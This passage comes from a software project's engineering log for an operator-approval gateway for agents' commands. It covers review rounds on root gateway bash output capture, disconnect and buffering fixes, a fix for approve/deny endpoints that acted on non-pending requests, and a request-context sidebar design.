  new approval path. The gateway change runs as root on every command, though,
  so I review the bash line by line.

**Code round 1 (2026-11-08): changes requested.** I read the gateway bash
line by line. D2–D8 are done well: stdin body, `path` literal, first result
wins, executable-only ids, bounded orphans, gateway-token-only endpoint, the
uid-0 run dir and `read -r`.

*Must fix:*

* **E1 `tee -p` keeps commands alive after the agent disconnects.** This is
  my D1 advice going wrong. With `--output-error=warn-nopipe`, tee also
  ignores the broken pipe to the agent's stdout (it is a pipe too), so it
  keeps reading and the command never receives SIGPIPE. In `tail` mode an
  agent that disconnects from `journalctl -f` or `tail -f` leaves a root
  process running forever. Today it dies at its next write. Reproduced with
  synthetic commands:
  * `yes | sed '' | tee -p FIFO | head -c 10` was still running at the 8 s
    timeout.
  * The same pipeline with plain `tee` stopped at once.

  Fix:
  * Go back to plain `tee "$ESHU_OUT_FIFO"`, and make the reader unable to
    stall the pipe instead:
    `{ tail -c 16385 > "$ESHU_OUT_TAIL" || true; cat > /dev/null; } < "$ESHU_OUT_FIFO" &`.
    If `tail` dies, `cat` keeps draining.
  * Drop the `tee -p` startup probe (one fewer fork per command).
  * Tests:
    * **Disconnect test:** in `tail` mode, an endless command whose stdout
      reader closes after a few bytes ends within 2 s, with `rc` 141. Add the
      same check for `exit-only`, to pin today's behaviour.
    * **Dead-reader test:** kill the `tail` process, not the group; stdout
      stays byte-identical.
* **E2 The 64 KB request cap from the design is missing.** No body limit
  exists for `/api/exec-result`. Add `Field(max_length=…)`:
  * `encoded_output`: 24 576
  * `encoded_command`: the same limit `/api/log` uses (or 16 384 if there is
    none)

  Test that an oversized body gets 422.

*Should fix:*

* **E3 Drop the per-result audit event.** Every executed command, allowlist
  ones included, now writes an `exec_result` audit row. That doubles audit
  volume with no decision in it; the results table is the record. Remove
  the event, or keep it only for `exit_code != 0` (your choice), and update
  the test.
* **E4 Lockbox match window.** Rule 2 uses `created_at >= now - 120`. A JIT
  request can be created up to `JIT_WAIT_SECONDS` (90 s) before approval,
  and its ticket lives another 90 s, so a lockbox claim after a reconnect can
  miss. For the `lockbox` path, use 300 s. Add a test with a row created
  200 s ago.

**Code round 2 (2026-11-08): approved and merged.** E1–E4 are fixed as
asked. I re-ran the disconnect check with synthetic commands: the drained
reader with plain `tee` stops immediately. 181 F5, gateway-script, poller
and golden tests pass locally; implementer's full run 1784 passed. Installers
regenerate with no diff, and `static/dev/` is untouched. No security sign-off
is needed (§ 2.6a). The backlog keeps the argv exposure of the gateway token
and of `/api/log`'s command (§ 11).

**CI fix review, round 3 (2026-11-09): changes requested.** The diagnosis is
good work: the `::error` annotations made GitHub's failure readable, and
removing the second reader is the right fix. Nothing can wedge now. Four
problems in `capture_tail()`, all reproduced with synthetic input:

* **C1 (must): the trimmer can change the exit code.** `set -o pipefail` is on,
  so if `awk` fails, the pipeline reports awk's status, not the command's.
  An unwritable capture file (tmpfs full, `mktemp` file removed) turns rc 0
  into 2, and rc 3 into 2. `test_f5_gateway_dead_trimmer_keeps_stdout_and_exit`
  does not catch it: it stubs `tail`, which the run no longer calls, so it
  passes without exercising anything. Fix: take the rc from
  `PIPESTATUS[0]` (with `set +e` around the pipeline), and make the awk END
  write failure-tolerant. Rewrite the test so the *awk* write fails (for
  example, the capture path is replaced by a directory before the run) and
  assert rc, stdout and `[ESHU exit=N]` are the command's.
* **C2 (must): quadratic cost.** Every line copies the 16 KiB buffer.
  `seq 2000000` through `capture_tail` takes 26.6 s with gawk and 2.8 s with
  mawk, against 0.06 s for `cat`. A root process burning CPU on a large
  `journalctl` or `find` in `tail` mode is a regression. A ring of lines
  with a running byte total (drop the oldest lines while the total minus the
  oldest is still over 16385, trim the first line at END) takes 1.7 s with gawk
  and 1.0 s with mawk, and its file is byte-identical to `tail -c 16385`. Add
  a test that bounds the time for ~200k lines generously (say < 10 s), so it
  catches the quadratic case without being flaky.
* **C3 (must): run awk with `LC_ALL=C`.** In a UTF-8 locale gawk's
  `length`/`substr` count characters, not bytes, and invalid UTF-8 can be
  handled differently by mawk and gawk. Bytes are what the cap means.
  Test with multibyte output and with invalid bytes.
* **C4 (should): a missing final newline is added.** `printf 'a\nb'` reaches
  the agent as `a\nb\n`. `tee` was byte-exact. Portable awk cannot see the
  missing newline (only gawk's `RT`), so either accept it and say so in § 2.7
  and the F5 notes, or keep the agent's stream byte-exact by other means.
  Either is fine; pin it with a test.

Also: test under **mawk** as well as gawk. Debian and Ubuntu gateways ship
mawk as `awk`, and CI images often have gawk. A test that runs the
capture function under each awk that is installed (skip if absent) is
enough. If you know why the old reader never saw EOF on the runners, add one
line about it; it is not blocking.

**Security gate:** this changes the root gateway script, so after C1–C4 the
security reviewer checks the `capture_tail`/`run_sanitized` diff before merge
(§ 2.6a). The CI annotation helper in `tests/conftest.py` is fine as it is.

**CI fix review, round 4 (2026-11-09, `cf59287`): one fix left (C5).** C1–C4
are fixed as asked. rc comes from `PIPESTATUS[0]` under `set +e`; the old
`tail`-stub test is replaced by a directory-capture test; the ring is linear
and byte-identical to `tail -c 16385` (checked here under gawk and mawk); and
the C4 newline is documented and pinned. 163 capture, F5 and gateway tests pass
locally.

* **C5 (must): dropped ring lines are never freed.** The loop advances
  `head` but leaves `line[head % 20000]` in the array until its slot is
  reused, so up to 20000 old lines stay in memory. With 4000 lines of
  100 KB (400 MB of output), maxrss is **395 MB** under gawk and 393 MB under
  mawk. Adding `delete line[head % 20000]` before `head++` brings that to
  **4.3 MB** and 3.1 MB, with the file still byte-identical to `tail -c 16385`.
  Add a test that bounds memory: for example, 2000 × 100 KB lines through
  `capture_tail` under `ulimit -v` of about 64 MB must succeed, under each awk.
  Then this goes to the security reviewer, with the diff `9470cff..` on
  `eshu-gateway.sh`.

**CI fix review, round 5 (2026-11-10, `1423e77`): approved by the feature
reviewer, waiting on security.** C5 is fixed: dropped slots are deleted.
Rechecked here: 4,000 lines of 100 KB peak at 3.9 MB, and `seq 300000` is
byte-identical to `tail -c 16385` under gawk and mawk. The `ulimit -v` test
makes a leak fatal. 165 capture, F5 and gateway tests pass locally, and
GitHub CI passes (3.10, 3.12, syntax). **Next:** the security reviewer checks
the `eshu-gateway.sh` diff `9470cff..1423e77` (`capture_tail`,
`run_sanitized`, `post_exec_result`). Then I merge.

**Security reviewer sign-off: CI fix (`9470cff..1423e77`,
`eshu-gateway.sh`), 2026-11-10: approved, with one test required before
merge.** I read `capture_tail`, `run_sanitized` and `post_exec_result`. I did
not run anything.

*What holds:*

* **Nothing is left to hang on.** There is no FIFO, no background reader and
  no `wait`. The capture rides in the stream and is written by `END` in the
  same process, so the gateway call ends when the pipeline ends.
* **Exit code.** It comes from `PIPESTATUS[0]` with `set +e` around the
  pipeline only, and `set -e` is restored straight after. A failing capture
  can no longer change the command's exit code, and it cannot stop the
  sentinel or the result post. The `[ESHU exit=N]` tests cover both
  branches.
* **The awk program never treats output as code.** Data is used only through
  `print`, `length` and `substr`. The capture path comes in through `-v` and
  is a `mktemp` name in the root-only 0700 directory, so nobody else can
  swap the file under it.
* **Memory and CPU are bounded.** The ring holds about 16 KiB plus one line,
  the work grows in step with the output, and dropped slots are freed. The
  slot count is safe, since no more than 16385 lines can be kept.
  `LC_ALL=C` makes the cap count bytes.
* **The capture is best effort.** A write failure reaches syslog, never the
  agent's stream. `post_exec_result` checks `-f` and falls back to an empty
  output on any read error.

*Required before merge (the feature reviewer can check it; it does not need
to come back to me):*

* **D1. A disconnect test.** E1, "an agent disconnect still ends the
  command", used to rest on `tee`. It now rests on awk dying when it writes
  to a closed stdout, and no test covers that. A root command that outlives
  its caller is exactly what this fix exists to prevent.
  - Test, under mawk and gawk: run a command that writes a line every 0.1 s
    for 60 s, through `run_sanitized` in `tail` mode. Close the reading end
    after the first line.
  - Assert that the gateway process and the command are gone within a few
    seconds.
  - Run it twice: once with the default SIGPIPE handling, which is what sshd
    gives its children, and once with SIGPIPE ignored (`trap '' PIPE` in the
    harness).
  - If an awk keeps going in the ignored case, add `if (fflush() < 0) exit 1`.
    The `fflush()` return check is portable.

*Recorded, not blocking:*

* **Three ways the agent's stream is no longer byte-exact.** In `tail` mode
  awk now sits in the stream to the agent, which `tee` did not. A missing
  final newline gets added (C4, accepted). Embedded NUL bytes may be handled
  differently by different awks. A single huge line is held in memory once
  more, on top of `sed`'s copy. None of this is a security change. The F19
  raw byte cap (L5) bounds the memory for unattended runs.
* **A misleading syslog line.** When awk is killed by a disconnect, the
  `|| logger` line logs "CAPTURE FAILED". If that proves confusing, log the
  exit status as well.
* **Rebasing F12 and F19 onto this fix.**
  - F12's `run_sanitized` still has the FIFO plus `tail -c 65537` reader for
    the MCP envelope. When F12 rebases onto this fix, the MCP capture must
    use this ring too: make the 16385 a parameter and send stdout to
    `/dev/null` in MCP mode. No second reader may come back.
  - The F12 rebase of `run_sanitized` comes back to me with F12's R1–R4 diff.
  - F19's pipeline sketch (`head -c` and `PIPESTATUS`) should be rewritten
    on top of this version.

**D1 check (feature reviewer, 2026-11-10).** I wrote the test myself
(`test_f5_capture_tail_ends_when_the_agent_disconnects`, under mawk and gawk,
with SIGPIPE at its default and ignored): a command writing as fast as it can
(`yes`), with the reader hanging up after one line. awk stops in all four
cases, so `fflush()` needs no return check. 28 capture tests pass.

The **slow writer from the D1 spec** shows something older than this fix. I
used a line every 0.1 s and the reader hanging up after line 1, timing until
the command stops:

| pipeline | command keeps running |
|---|---|
| `sanitize \| tee` (F5, what is live today) | 41 s (the whole run) |
| `sanitize \| capture_tail`, gawk or mawk | 39–41 s |
| `stdbuf -oL sed … \| mawk -W interactive …` | 0.3 s |
| `sed -u … \| capture_tail` (gawk) | 0.3 s |

The cause is **`sanitize`**. GNU `sed` block-buffers its output into a pipe,
so a slow command's first ~4 KB never reaches the closed connection, and the
command never gets its SIGPIPE until then. That is true in **every** capture
mode, including `exit-only` (`"$@" | sanitize`), so it is live on every
gateway today. mawk also block-buffers its *input* from a pipe unless given
`-W interactive`, which matters once `sed` is fixed. The CI fix is therefore
**no worse than `tee`**, but the D1 spec as written fails for a reason the CI
fix did not introduce.

Proposed fix (two lines, gateway bash):
* `sanitize`: `stdbuf -oL sed -E …`, with plain `sed` if `stdbuf` is
  missing. That costs 0.8 s per million lines, against 0.1 s today; `sed -u`
  costs 2.7 s.
* `capture_tail`: add `-W interactive` when `awk -W version` reports mawk.
  gawk prints a warning for that option, so detect mawk first; don't pass it
  blindly.
* The test exactly as specified (slow writer through `run_sanitized`, gone
  within 5 s, both awks, both SIGPIPE modes), in `tail` **and** `exit-only`
  modes.

**Security reviewer on the D1 check (2026-11-10, `069cd59`): D1 is met,
and the CI fix may merge now.** The disconnect test is what I asked for: awk
stops under mawk and gawk, with SIGPIPE at its default and ignored, so
`fflush()` needs no return check.

The slow-writer result does not block this merge. It is not a regression:
`sed` already block-buffered under `tee`, and the table shows the same 41 s
before and after this fix. The disconnect test in this branch covers what
the CI fix changed. A command that keeps running after its agent hangs up is
a resource problem, not a privilege one: the command was already approved.
It belongs in its own fix.

**The buffering fix: a separate small gateway-bash branch, which comes back
to me.** The proposed approach is fine. Conditions:

* **B1. Make `sanitize` line-buffered with `stdbuf -oL sed -E …`.** Find
  `stdbuf` on the fixed `PATH` once per call. When it is missing, fall back
  to plain `sed` and log once to syslog, never to the agent's stream. The
  redaction expressions stay exactly as they are. The existing sanitize
  tests must pass unchanged, which shows line-buffering changes nothing that
  is redacted.
* **B2. Pass `-W interactive` only to mawk.** Detect mawk once per call:
  `awk -W version 2>/dev/null` prints "mawk". Any other output, or an error
  (BusyBox awk, gawk), means the option is not passed. Test with a stub
  `awk` that fails on `-W version`.
* **B3. The slow-writer test, exactly as the D1 spec describes it.** Run it
  through `run_sanitized` in both `tail` and `exit-only` modes, under both
  awks and both SIGPIPE modes. The command must be gone within 5 s. Add one
  case with `stdbuf` absent, which records the slower fallback (no time
  bound) and asserts that the output and the exit code are still correct.
* **B4. Carry it forward to F12 and F19.** When F12 rebases, its MCP capture
  uses the same `sanitize` and the same mawk detection. F19's pipeline (L4
  and L5) builds on the line-buffered `sanitize`. F19's time limit stays the
  bound for unattended runs, whatever the buffering does.

**Buffering fix review (feature reviewer, 2026-11-10, `fix/stream-unbuffered` at
`5477da5`): approved; to the security reviewer (gateway bash, § 2.6a).** CI is
green on the branch.

* **B1 is right.** `stdbuf -oL sed -E` with the same expressions, found once
  per call, plain `sed` plus a syslog line when absent. Rechecked here: a
  slow writer through `stdbuf -oL sed` into a reader that closes after the
  first line ends in **0.2 s** (exit-only path).
* **B2's rejection is right, and the evidence is stronger than the note
  says.** On this reviewer's mawk 1.3.4 **20240123**, `-W interactive` does not
  split a 20 000-byte line: it **truncates** it to 4 097 bytes (one line,
  `wc -c` 4097). Either way it corrupts the agent's stream, so it must not be
  used. The `-W interactive` source guard stays.
* **The residual is real and limited to `tail` capture on mawk.** Measured:
  slow writer → `stdbuf -oL sed` → `mawk` ring → reader closes after one line:
  **10.7 s** (the whole writer). The 16 live gateways are all `exit-only`, where
  awk is not in the stream, so B1 fully fixes them. `RELEASE_1.md` step 6
  (optional `tail` on one gateway) should mention it.
* **S1 (should, a later fix, not this branch): take awk out of the visible
  stream in `tail` mode.** `… | sanitize | tee >(capture_tail "$cap" >/dev/null)`
  measured **0.3 s** with mawk: `tee` writes as it reads, gets EPIPE at once,
  and the ring only reads. The cost is waiting for the process substitution
  before the result post (bash ≥ 5.1 `wait $!`, or the ring writes to a temp
  name and `mv`s, with a short bounded poll). Its own small chunk, gateway bash,
  security sign-off.
* **N1 (nit):** the slow-writer test skips mawk in **both** modes, but in
  `exit-only` awk is not in the pipeline, so the mawk/exit-only case can run.
  Skip only `mawk` + `tail`.
* **N2 (nit):** without `stdbuf` the syslog line is written on every call. All
  gateways are systemd hosts with coreutils, so this will not fire in
  practice; fine as is.

**Merge order:** security signs off → I merge this into `feature-roadmap` →
F12 merges `feature-roadmap` forward again (it does **not** have B1 yet: the
F12 report said "B1 came with the merge", but `sanitize` on F12 is still
plain `sed`) → security re-checks the merged F12 gateway diff → I merge F12.

**Security reviewer sign-off: buffering fix (`fix/stream-unbuffered` at
`981f467`, gateway diff `5b0f5e4`), 2026-11-10: approved.**

* **B1 is right.**
  - `stdbuf` is looked up once on the fixed `PATH`, after the environment is
    scrubbed. Its `LD_PRELOAD` reaches only `sed`.
  - The redaction expressions are unchanged, and the fallback writes to
    syslog only.
  - With `exit-only` capture, which is every live gateway, awk is not in the
    stream, so B1 fully closes the slow-writer gap there.
* **The rejection of B2 is accepted.** `-W interactive` splits or truncates
  long lines, which corrupts the agent's stream. A wrong stream is worse
  than a late stop.
* **The residual risk is accepted, with limits.** On mawk with `tail`
  capture, a slow writer can outlive a disconnect until awk's input buffer
  fills. This uses resources but gives no access beyond what was approved.
  F19's time limit bounds it for unattended runs. Conditions:
  - `RELEASE_1.md` step 6 says so for anyone turning on `tail` capture on a
    mawk host.
  - The SIGPIPE-ignored case stays out of scope: sshd gives its children the
    default handling.
  - N1 is worth doing: run the mawk plus `exit-only` case instead of
    skipping it.
* **For the later tee-based fix (S1), when it comes to me:**
  - It brings back a second process that the script waits for, which is the
    shape that hung CI. The wait must be bounded: a short poll with a hard
    deadline, after which the result post goes without the capture. It must
    never be an unbounded `wait`.
  - The capture must be written to a temporary name and renamed, so a
    half-written capture is never posted.
  - Test: a capture process that never exits does not hold the call.
* **Merge order:** as the feature reviewer wrote. I check the merged F12
  gateway diff, which picks up B1, before F12 merges.

### Round 7 — N1 (test-only)

**Commit: test change only** (`tests/test_f5_exec_results.py`), plus the
`RELEASE_1.md` step 6 note the security sign-off made a condition.

* **N1 — the mawk skip is now `mawk` + `tail` only.** In `exit-only` capture
  `awk` is not in the pipeline, so the mawk case says nothing about mawk: it
  runs, and the `mode == 'tail'` guard replaces the old `awk_name == 'mawk'`
  skip. The skip reason now states why (mawk reads stdin in 4 KiB blocks, so
  the tail ring cannot see the first line early; 10.7 s measured).
  The matrix here (mawk 1.3.4, no gawk in this container): `mawk`/`exit-only`/
  **default** runs and passes (about 0.3 s to the disconnect, command gone);
  `mawk`/`tail` skips; the `gawk` parameters skip as before (not installed);
  SIGPIPE-ignored keeps its own skip in both modes — that is GNU `sed` on
  EPIPE, not the awk in the path. On the two F5 files: `58 passed, 21 skipped`
  with this change, `57 passed, 22 skipped` without it — one case moved from
  skip to pass, nothing else.
* **`RELEASE_1.md` step 6** now names the mawk/`tail` residual for anyone
  turning on `tail` capture, as the sign-off required.
* **S1 is not done here** (the `tee`-based tail, its own chunk with a bounded
  wait, per the sign-off); the merge order from the review stands, and F12 is
  not merged forward on this branch.

`bash scripts/verify.sh`: `2351 passed, 21 skipped, 7 warnings in 430.97s (0:07:10)`
(gawk is not installed in this container, so the 15 `gawk` parameters skip —
unchanged by this commit; CI runs them).

---

## Chunk X1 — Sidebar actions and pending-only decisions · slug `ctx-actions` · dashboard · BUG

### Problem (found by the operator, 2026-11-08)

Open a request in the right-hand sidebar (`openContextPanel`) and press
Approve: the sound plays and nothing happens. Two causes in `app.js`:

1. **Wrong branch for integration calls.** The action buttons use
   `if (req.status === 'pending' || !req._type)`. Pending integration calls
   have `status: 'pending'`, so they take the SSH branch:
   `handleAction(<integration id>)` POSTs `/api/approve/<integration id>`, the
   **SSH** endpoint. Usually that id matches nothing, so nothing happens.
2. **F2's two-press rule from the sidebar.** For a long command with an
   unknown step, the first press highlights that step in the queue card
   behind the panel; the sidebar itself shows nothing.

Behind cause 1 is a backend gap. `POST /api/approve/{id}` and
`/api/deny/{id}` call `update_request_status` **without checking the current
status**. An approve can therefore move a `denied`, `expired`, `consumed` or
`blocked` row back to `approved`. If an integration-call id happens to equal
an old SSH request id, the sidebar re-approves that old command without
saying so.

### Changes

* **UI:** dispatch on `req._type` first (`integration` / `window` / SSH), then
  on status. For integration calls use `approveIntegrationCall` and
  `denyIntegrationCall`.
* **UI:** when the sidebar's approve press arms F2's two-press rule, the
  sidebar shows it on its own button ("Press again to approve") and
  highlights the unknown step in its own breakdown, not only in the card.
* **UI:** surface a failed approve/deny (non-2xx) as an error toast in
  `handleAction`; today a failure is silent.
* **API:** approve and deny act only on a `pending` row. Do it with a
  conditional update (`UPDATE … WHERE id = ? AND status = 'pending'`) and
  return 409 `not_pending` otherwise. Audit only real transitions.

### Tests to add

* Node harness (F2 pattern): opening a pending **integration** call and
  pressing Approve calls the integration endpoint, never `/api/approve/`.
  The same check for window requests and SSH requests.
* Harness: a long-unknown SSH request in the sidebar needs two presses, and
  the sidebar button shows the armed state.
* API: approving or denying a `denied`, `expired`, `consumed` or `blocked`
  row returns 409 and leaves the status unchanged; pending → approved still
  works; there are no audit events for refused transitions.
* API: a request approved twice gets 409 on the second call.

### Acceptance criteria

- [ ] All tests above pass.
- [ ] No other approval path changes: bulk approve, the session override and
  F3 plans keep their own routes. Check that bulk approve and the history
  table still work against the 409 rule.
- [ ] Reviewer notes tell the security reviewer about the backend gap (FYI;
  no sign-off needed).

### Implementer notes

**What I did**

* **UI dispatch (`app.js`).** The sidebar buttons now come from
  `contextActionsHtml(req)`, which dispatches on `_type` first:
  integration → `approveIntegrationCall`/`denyIntegrationCall`, window →
  `approveWindowReq`/`denyWindowReq`, SSH pending → `handleAction`, anything
  else → Close. Pending integration calls no longer fall into the SSH branch
  and no longer POST to `/api/approve/<integration id>`.
* **Two-press in the sidebar.** `contextApproveLabel(req)` returns
  "Press again to approve" once F2's arming press has set
  `_bdUnknownConfirmed[id]`; `handleAction` calls `armSidebarConfirm(id)`,
  which re-renders the sidebar buttons and flashes the sidebar's **own**
  unknown step (`#ctx-breakdown-steps`), not only the queue card behind it.
* **Visible failures.** `handleAction` now shows an error toast on any
  non-2xx from approve/deny (`Could not approve request #N: not_pending`) and
  refreshes the queue, instead of silently doing nothing.
* **API (`main.py`, `db/requests.py`).** `POST /api/approve/{id}` and
  `/api/deny/{id}` act only on a `pending` row, via
  `update_request_status_if_pending`
  (`UPDATE requests SET status = ? WHERE id = ? AND status = 'pending'`,
  `rowcount` checked). Unknown id → 404; any other state → 409 `not_pending`;
  the audit event is written only after a real transition.

**Notes**

* Bulk approve (one POST per selected pending id) and the history table are
  unchanged and still work against the 409 rule — covered by
  `test_x1_bulk_approve_sequence_still_works`.
* No other approval path changed: session overrides, F3 plans and window
  approvals keep their own routes; only the generic approve/deny handlers
  became pending-only.

**For the security reviewer (FYI, no sign-off needed).** The backend gap: the
old handlers called `update_request_status` unconditionally, so a stale click
or a colliding integration-call id could move a `denied`, `expired`,
`consumed` or `blocked` SSH row back to `approved` (and, once approved, the
gateway would claim and run it). It is now a conditional update with a 409 and
no audit on refusal.

**Tests** — `tests/test_x1_ctx_actions.py` (18): the sidebar harness
(dispatch for integration/window/SSH/closed, and the two-press armed label
with zero then one POST) plus the API cases (pending approve/deny still work;
approve refused for denied/expired/consumed/blocked/approved/auto-approved;
deny refused for approved/denied/expired/consumed/blocked; double approve;
unknown id 404; bulk sequence; no audit events for refused transitions).

`bash scripts/verify.sh` (pre-commit green):

```
1835 passed, 7 warnings in 371.15s (0:06:11)
```


### Reviewer notes

**Round 1 (2026-11-08): approved and merged.**

* **Sidebar:** dispatch goes by type first, so a pending integration call
  can no longer reach `/api/approve`.
* **Backend:** approve and deny use one conditional UPDATE, with 404/409 and
  audit only on a real transition.
* **No other callers:** nothing else posts to these endpoints apart from
  `handleAction`.
* **Tests:** 30 X1 + F2 tests pass locally.

Nit, for the UI pass: `contextApproveLabel` reads `_bdUnknownConfirmed` for
integration calls too. The id spaces are shared, so an armed SSH request
with the same number would relabel an integration button. It is cosmetic
only, because the integration handler has no two-press rule.

FYI for the security reviewer: before X1, `/api/approve/{id}` moved a row of
any status to `approved`. It is now pending-only.

---

## Chunk F18 — Request context in the sidebar · slug `request-context` · dashboard

### Goal

Make the sidebar answer "should I approve this?" with what Eshu already
knows, instead of repeating the card.

### Design

One endpoint, `GET /api/requests/{id}/context` (session auth), computed on
demand when the panel opens (never in the 3 s poll). Every block has a hard
cap and is computed from indexed columns. Sections, in this order:

1. **Why it is waiting for you.** The first rule on the approval path that did
   not let it through, reusing the existing checks:
   * metacharacter gate
   * no allowlist match
   * Zero-Trust
   * read lane off, shadow, or ineligible with F4's reason
   * no plan or override match
   * encoded payload

   One line, e.g. "Waiting because: contains `&&` (metacharacter rule)".
2. **This session.** The goal and agent, then the session's last 10 commands
   with status and F5 exit badge, plus any active plan or override.
3. **Seen before.** The exact command on any host in the last 90 days:
   count, last time, the operator's decisions (approved/denied counts), last
   exit code. It matches on exact bytes via sha256, so add an indexed
   `command_sha` column with a backfill (the F7 pattern).
4. **Like this.** Requests with the same F1 *shape*: the sequence of
   `(verb, kind)` over steps, with arguments dropped. Show the counts
   approved and denied, and up to 3 examples. Store a `shape_sha` column as
   well, filled at creation from the breakdown.
5. **Host.** Hostname, inner target (F7), Zero-Trust, read-lane mode, the
   gateway's last-seen time, and the count of failed commands in 24 h (F5).

### Changes

* **DB:**
  * `requests.command_sha` and `requests.shape_sha`, nullable and indexed;
    filled at creation.
  * A batched background backfill with a meta flag, as in F7's
    `inner_targets`.
* **API:** the context endpoint. Responses are capped: 10 session rows,
  3 examples, commands cut to 300 chars. Agent text is returned unescaped
  for the UI to escape.
* **UI:**
  * The sidebar renders the sections, each collapsible, with its state
    remembered in `localStorage` (wrapped in try/catch).
  * A "Seen before" or "Like this" row opens History filtered to it.
  * Every string goes through `escapeHtml`.

### Tests to add

* Each section from synthetic rows: the session list order and cap, exact
  matches across hosts, decision counts, a shape match ignoring arguments,
  and the "why waiting" reason for each rule.
* Backfill: batched, idempotent, and skipped on the second start.
* Performance: on 50k synthetic rows the endpoint answers in < 150 ms (local
  test, generous bound).
* Node harness: escaping of agent text in every section.
* Session auth required.

### Acceptance criteria

- [ ] Opening the sidebar costs one request; the poll is unchanged.
- [ ] Synthetic data only; screenshots use the sandbox.

### Implementer notes

**What I did**

* **DB** (`db/requests.py`): nullable `command_sha` and `shape_sha` columns,
  both indexed. They are filled inside `create_request` itself, so every call
  site (request, log, fleet run, window) gets them with no extra plumbing.
* **Fingerprints** (`core/fingerprint.py`): `command_sha` is the sha256 of the
  exact command bytes; `shape_sha` hashes the sequence of `verb:kind` over
  F1's steps, so arguments are dropped.
* **Backfill** (`core/request_fingerprints.py`): the F7 pattern — batches of
  500 **distinct commands** where `command_sha IS NULL`, one `meta` key
  (`request_fingerprint_backfill_done`), daemon thread from `on_startup`,
  idempotent and skipped on a second start.
* **Context** (`core/request_context.py`): `build_context(request_id)` returns
  the five sections, all capped (10 session rows, 3 examples, 300-char
  commands) and computed on demand:
  1. `waiting` — the first rule that applies, in approval-path order:
     encoded payload → metacharacter (naming the token, e.g. `&&`) →
     Zero-Trust → read lane (off / shadow / ineligible with F4's reason) →
     no allowlist match → no plan or session override matched. (The chunk
     lists the rules; this is the precedence used, so a read that the lane
     would cover reports the lane, not "no allowlist").
  2. `session` — goal/agent, the last 10 commands newest-first with status and
     F5 exit code, plus the active plan and session override.
  3. `seen` — exact `command_sha` across hosts in 90 days: count, last time,
     approved/denied counts, last exit code (includes the current row: it is
     the full record).
  4. `like` — same `shape_sha` in 90 days, excluding the current row: counts
     and up to 3 examples.
  5. `host` — hostname, inner target, Zero-Trust, read-lane mode, last seen,
     and failed commands in 24 h.
* **API**: `GET /api/requests/{id}/context` (session auth, 404 unknown).
* **UI** (`app.js`): `renderRequestContext` renders the five `<details>`
  sections; each open/closed state is stored in `localStorage` inside
  try/catch. "Seen before" has a **show in history** link (and like-this rows
  are commands) that sets the History search filter. Fetched only when the
  panel opens — the 3 s poll is unchanged. Every agent string goes through
  `escapeHtml`; the node harness proves it for every section.
* **Tests** — `tests/test_f18_request_context.py` (15 + 3 skipped): session
  order and cap, exact matches across hosts, decision counts, shape match
  ignoring arguments, host section, every "why waiting" rule, the backfill
  (batched, idempotent, flagged), new rows carrying fingerprints, session
  auth, 404, the 50k-row performance bound (< 150 ms) and the escaping
  harness.

**Surprises and decisions**

* **The base did not have X1 or F4.** `feature-roadmap` was at `5b79914`
  (neither merged) when this branch was cut, as instructed. F18 does not
  depend on X1 — it appends a container and the section renderers to
  `openContextPanel` and leaves the action buttons alone. Without F4 the
  read-lane reasons and the host's mode are inert: the three read-lane
  "why waiting" tests skip until `core.read_lane` exists (`needs_f4`), and the
  host section reports `read lane off`. Both switch on automatically when F4
  merges.
* `command_sha`/`shape_sha` are computed in `create_request` rather than at
  each call site, so a future path cannot forget them; the cost is one cached
  `breakdown()` per request, which the request path already computes for F7.
* The "like this" section excludes the current row; "seen before" includes it
  (the row is part of its own history).

**Screenshot** (synthetic `web01` / `10.0.0.1`, session `hermes`, all five
sections open):



`bash scripts/verify.sh` (pre-commit green):

```
1832 passed, 3 skipped, 7 warnings in 373.92s (0:06:13)
```

(1817 before this chunk + 15 F18 tests; the 3 skips are the F4-dependent
read-lane reasons above.)


### Round 2 — fixes for reviewer round 1 (C1–C4)

* **C4 — merged `feature-roadmap` (X1) first.** The only conflict was
  `openContextPanel` in `app.js`: kept X1's `contextActionsHtml` /
  `renderContextActions` / `armSidebarConfirm` / `contextApproveLabel` code and
  added F18's container and section renderers (one shared `_ctxReq`
  declaration). The X1 harness tests (`tests/test_x1_ctx_actions.py`, 18) run
  green on the merge. The three F4-dependent read-lane reasons still skip.
* **C1 — operator decisions are not automatic ones.** `seen` (and `like`)
  now return `operator_approved` (`approved`/`consumed` with no
  `session-plan:`/`read-lane` reason), `auto` (`auto-approved`,
  `window-approved`, and plan/read-lane approvals) and `denied`, computed in
  SQL. The UI reads "approved by you N · auto N · denied N". Test:
  `test_f18_seen_splits_operator_from_auto` with one row of each kind.
* **C2 — "Like this" refuses generic shapes.** A one-step shape whose verb is
  `bash`/`sh`/`python*` returns `generic: true` with no counts and the UI says
  "Too generic to compare."; everything with ≥ 2 steps (or a non-interpreter
  verb) keeps its counts. The counts and the 3 examples are now one `COUNT`/
  `SUM` plus one `LIMIT 3` query instead of fetching every row. Tests:
  `test_f18_generic_shape_has_no_counts` and
  `test_f18_like_this_counts_in_sql` (exact numbers from the aggregates).
* **C3 — "why waiting" only for pending rows, worded as a guess.** A
  non-pending row returns `waiting: null` and the UI hides the section; for a
  pending row it says **"Likely waiting because: …"**. Test:
  `test_f18_non_pending_has_no_waiting_reason`, plus a harness check for the
  label and the empty body.

**Round-2 tests** — 4 new in `tests/test_f18_request_context.py` (one per C
item) and one harness case; the F18 file is 23 tests, 3 of them skipped until F4 merges.

**Screenshot** — refreshed with the new wording and split counts:


`bash scripts/verify.sh` (pre-commit green):

```
1855 passed, 3 skipped, 7 warnings in 378.14s (0:06:18)
```


**Round 1 (2026-11-08): changes requested (small).** The structure is good.
It computes on demand, the caps are in place, fingerprints are filled in
`create_request`, the backfill follows the F7 pattern, every agent string is
escaped (harness), and the endpoint requires session auth. 15 tests pass
locally. This panel helps the operator decide, so it must not overstate the
case for approving:

* **C1 Split "you approved" from "it was auto-approved".** `_approved`
  counts `auto-approved` and `window-approved` (and, once F3/F4 merge, plan
